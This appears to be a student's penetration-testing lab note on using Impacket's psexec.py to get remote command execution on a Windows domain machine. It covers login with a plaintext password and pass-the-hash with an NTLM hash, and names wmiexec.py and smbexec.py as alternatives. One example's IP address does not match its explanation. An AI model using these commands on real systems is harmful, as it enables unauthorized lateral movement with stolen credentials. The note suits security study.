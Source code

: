 `psexec.py`
- Check your options
- `psexec.py MARVEL/fcastle:'Password1'@192.168.138.137`
	- the program `psexec.py`
	- logging on to the user `fcastle`
	- with the password `'Password1'`
	- on the domain `MARVEL`
	- on the machine at `192.168.138.137`
- `psexec.py administrator@192.168.128.127 -hashes [NTLM hash]`
	- the program `psexec.py`
	- logging on to the user `administrator`
	- on the machine at `192.168.138.137`
	- using a hash (`-hashes`)
If things don't work with `psexec.py` try `wmiexec.py` or `smbexec.py`
- Those are all scripts in your kali box